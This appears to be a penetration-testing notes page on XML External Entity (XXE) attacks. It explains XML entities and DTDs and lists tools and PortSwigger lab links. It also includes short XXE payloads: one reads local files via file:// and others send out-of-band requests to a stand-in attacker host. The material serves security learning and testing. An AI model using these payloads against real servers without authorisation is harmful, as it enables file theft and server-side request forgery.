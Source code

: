 # XXE - XML External Entity Attacks

{% tabs %}
{% tab title="Tools and Resources" %}
* [PayloadsAllTheThings/XXEInjection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe)
* [XEE Payload collection](https://gist.github.com/staaldraad/01415b990939494879b4)
* [XXEinjector](https://github.com/enjoiz/XXEinjector) - XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications.
* [xxe-recursive-download](https://github.com/AonCyberLabs/xxe-recursive-download) - This tool exploits XXE to retrieve files from a target server. It obtains directory listings and recursively downloads file contents.
* [https://xapax.github.io/security/#attacking\_web\_applications/xml\_external\_entity\_attack/](https://xapax.github.io/security/#attacking\_web\_applications/xml\_external\_entity\_attack/)
* [https://cheatsheetseries.owasp.org/cheatsheets/XML\_External\_Entity\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XML\_External\_Entity\_Prevention\_Cheat\_Sheet.html)
* [https://pentestbook.six2dez.com/enumeration/web/xxe](https://pentestbook.six2dez.com/enumeration/web/xxe)
* [**Comprehensive Guide on XXE Injection**](https://www.hackingarticles.in/comprehensive-guide-on-xxe-injection/)
* _XML External Entity Vulnerabilities - Bug Bounty Hunting Essentials, pg.143_
{% endtab %}

{% tab title="Basics" %}
* **XML** - XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.
* **XML Entities** - XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities `&lt;` and `&gt;` represent the characters `<` and `>`. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.
* **DTD: Document Type Definition** - The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional `DOCTYPE` element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.
*   **XML Custom Entities** -  XML allows custom entities to be defined within the DTD. For example:

    &#x20;`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>`

    &#x20;This definition means that any usage of the entity reference `&myentity;` within the XML document will be replaced with the defined value: "`my entity value`".
*   **XML External Entity** -  XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.

    &#x20;The declaration of an external entity uses the `SYSTEM` keyword and must specify a URL from which the value of the entity should be loaded. For example:

    &#x20;`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`

    &#x20;The URL can use the `file://` protocol, and so external entities can be loaded from file. For example:

    &#x20;`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]`
{% endtab %}

{% tab title="Testing for XXE Vulnerabilities" %}
* Testing for [file retrieval](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files) by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
* Testing for [blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind) by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) is perfect for this purpose.
* Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an [XInclude attack](https://portswigger.net/web-security/xxe#xinclude-attacks) to try to retrieve a well-known operating system file.
{% endtab %}
{% endtabs %}

## **Attacks**

<details>

<summary>XXE for retrieving files</summary>

* [https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
* You can retrieve an arbitrary file from a target filesystem by modifying a submitted XML in two ways:
  * Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
  * Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

</details>

<details>

<summary>XXE to perform SSRF</summary>

* To exploit an XXE vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf), you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform [blind SSRF](https://portswigger.net/web-security/ssrf/blind) attacks.
* [https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)

</details>

<details>

<summary>Blind XXE attacks</summary>

* Many instances of XXE vulnerabilities are blind. This means that the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.
* Attack surface for XXE injection vulnerabilities is obvious in many cases, because the application's normal HTTP traffic includes requests that contain data in XML format. In other cases, the attack surface is less visible. However, if you look in the right places, you will find XXE attack surface in requests that do not contain any XML.
*   &#x20;You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

    `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

    * This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.
    * [https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

</details>

<details>

<summary>XML Parameter entities</summary>

*   &#x20;Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

    `<!ENTITY % myparameterentity "my parameter entity value" >`

    &#x20;And second, parameter entities are referenced using the percent character instead of the usual ampersand:

    &#x20;`%myparameterentity;`

    &#x20;This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

    `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

<!---->

* [https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)



</details>

<details>

<summary>Blind XXE for OOB Exfiltration</summary>

* [https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
* involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.



</details>

<details>

<summary>Blind XXE to retrieve data via error messages</summary>

* An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response
* [https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)



</details>

<details>

<summary>Blind XXE via repurposing a local DTD</summary>

* It might be possible to trigger error messages containing sensitive data, due to a loophole in the XML language specification. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.
* [https://portswigger.net/research/top-10-web-hacking-techniques-of-2018#7](https://portswigger.net/research/top-10-web-hacking-techniques-of-2018#7)
* [https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)
* [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)
* XInclude Attacks
  * Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. When you cannot submit this data via the `DOCTYPE` element, You can attempt to use the `XInclude` element, which allows XML documents to be built from sub-documents.
  * Placing your attack data in this element, allows your data to be placed in a server-side XML document
  * [https://portswigger.net/web-security/xxe/lab-xinclude-attack](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
* XXE via file upload
  * Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents.
  * [https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
* XXE via modified content type
  * Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.
  * If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

</details>
